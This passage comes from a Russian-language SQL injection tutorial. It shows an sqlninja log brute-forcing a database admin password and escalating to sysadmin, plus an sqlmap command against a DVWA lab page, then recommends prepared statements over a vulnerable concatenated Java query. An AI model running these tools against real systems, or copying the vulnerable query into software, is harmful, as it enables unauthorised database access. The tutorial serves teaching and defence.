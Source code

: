 *Источник: [DVWA](https://github.com/digininja/DVWA)*

### Атака автоматизированными инструментами
Примеры инструментов для проведения атаки:
* SQLNinja
  ```
  root@edge-linuxpen:~/sqlninja-0.2.3-r1# ./sqlninja -v -m bruteforce -w pass.txt
  Sqlninja rel. 0.2.3-r1
  Copyright (C) 2006-2008 icesurfer <r00t@northernfortress.net>
  [+] Parsing configuration file................
  - Host: state.govt.agency.us
  - Port: 443
  - SSL: yes
  - method: POST
  - page: /APPLICATION/Folder/AuthenticationPage.asp
  - stringstart: Submit=Submit&Password=pwned&UserName=auditor'
  - stringend: 
  - local host: 192.168.0.1
  - sniff device: eth0
  - domain: sqlninja.net
  [v] SSL connection forced
  [+] Target is: state.govt.agency.us
  [+] Wordlist has been specified: using dictionary-based bruteforce
  Number of concurrent processes  [min:1 max:10 default:3]
  > 1
  [v] Creating UNIX socket for children messages
  [v] Launching children processes
  [+] Bruteforcing the sa password. This might take a while
  dba password is...: servername
  bruteforce took 60 seconds
  [+] Trying to add current user to sysadmin group
  [+] Done! New connections will be run with administrative privileges! In case
    the server uses ODBC, you might have to wait a little bit
    (check sqlninja-howto.html)
  ```
* SQLMap
  ```bash
  sqlmap -u "http://host/DVWA-master/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="PHPSESSID=4074cf3daf9e2152349baee68c99a656; security=low"
  ```
  ![](https://user-images.githubusercontent.com/58670841/178011200-65776a5f-59c6-4567-98da-27e36e1a6135.png)

# Рекомендации
Большинство случаев SQL-инъекций можно предотвратить, используя функцию параметризованных запросов (prepared statements) вместо простого объединения пользовательских данных с запросами.

Следующий JAVA-код уязвим для SQL-инъекций, поскольку пользовательский ввод объединяется непосредственно с запросом:
```java
String query = "SELECT * FROM products WHERE category = '"+ input + "'";
Statement statement = connection.createStatement();
ResultSet resultSet = statement.executeQuery(query);
```
Этот код можно легко переписать таким образом, чтобы пользовательский ввод не мешал структуре запроса. Для этого необходимо использовать параметризованные запросы:
```java
PreparedStatement statement = connection.prepareStatement("SELECT * FROM products WHERE category = ?");
statement.setString(1, input);
ResultSet resultSet = statement.executeQuery();
```
Параметризованные запросы можно использовать в любой ситуации, когда ненадежные входные данные отображаются как данные в запросе, включая предложение WHERE и значения в операторе INSERT или UPDATE. 
